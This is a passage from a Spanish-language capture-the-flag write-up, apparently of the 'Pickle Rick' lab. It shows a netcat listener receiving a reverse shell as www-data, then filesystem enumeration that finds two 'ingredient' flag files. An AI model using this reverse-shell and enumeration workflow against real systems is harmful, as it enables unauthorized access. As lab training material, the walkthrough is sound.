 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.59.35] 39620
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Para trabajar más cómodos, haremos un [Tratamiento de la tty](/posts/tratamiento-tty). En la ruta en la que nos encontramos, vemos el archivo **Sup3rS3cretPickl3Ingred.txt** el cual tiene un ingrediente.

```bash
www-data@ip-10-10-59-35:/var/www/html$ ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
www-data@ip-10-10-59-35:/var/www/html$
```

Si accedemos al directorio `/home/` vemos 2 usuarios:

```bash
www-data@ip-10-10-59-35:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Jun 18 02:37 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu
www-data@ip-10-10-59-35:/home$
```

Si accedemos al directorio de **rick**, vemos el segundo ingrediente:

```bash
www-data@ip-10-10-59-35:/home$ cd rick/
www-data@ip-10-10-59-35:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
www-data@ip-10-10-59-35:/home/rick$ cat second\ ingredients 
1 jerry tear
www-data@ip-10-10-59-35:/home/rick$
```
